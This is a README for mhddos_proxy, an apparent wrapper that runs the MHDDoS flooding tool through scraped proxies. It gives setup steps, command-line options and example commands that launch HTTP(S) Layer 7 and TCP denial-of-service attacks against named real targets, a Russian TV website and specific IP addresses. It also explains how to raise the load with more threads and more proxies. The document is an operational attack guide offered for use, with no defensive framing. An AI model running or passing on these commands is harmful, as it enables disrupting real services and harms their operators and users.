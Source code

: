## Setup

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    git clone https://github.com/MHProDev/MHDDoS.git
    git clone https://github.com/monosans/proxy-scraper-checker.git
    python3 -m pip install requirements.txt

# Usage

    python3 runner.py --help

    usage: runner.py [-h] [-t THREADS] [-p PERIOD] [-proxy-timeout PROXY_TIMEOUT] [-rpc RPC] [-skip-proxy-init] targets [targets ...]

    positional arguments:
      targets               List of targets, separated by spaces
    
    optional arguments:
      -h, --help             show this help message and exit
      -t THREADS             Number of threads per CPU core (default is 100)
      -p PERIOD              How often to update the proxies (default is 300)
      --proxy-timeout PROXY_TIMEOUT
                             How many seconds to wait for the proxy to make a connection.
                             Higher values give more proxies, but with lower speed/quality.
                             It also takes more time (default is 3)
      --rpc RPC              How many requests to send on a single proxy connection (default is 100)
      --http-methods         List of HTTP(s) attack methods to use. Default is GET, STRESS, BOT, DOWNLOADER.
                             Refer to MHDDoS docs for available options (https://github.com/MHProDev/MHDDoS)

# Examples

HTTP(S) Layer 7 attack - randomly chosen method from --http-methods parameter (see above for defaults).

    python3 runner.py target1 target2 target3

Target examples

- HTTP(S) by URL - `http://tvzvezda.ru` | `https://tvzvezda.ru`
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT - `tcp://194.54.14.131:4477`

Increase load

    python3 runner.py -t 300 https://tvzvezda.ru

Update proxies less often (every 600s)

    python3 runner.py -p 600 https://tvzvezda.ru

More proxies

    python3 runner.py --proxy-timeout 5 https://tvzvezda.ru

# TODO

- [ ] UDP support - need MHDDoS to support SOCKS5 proxies for UDP
- [ ] Docker image
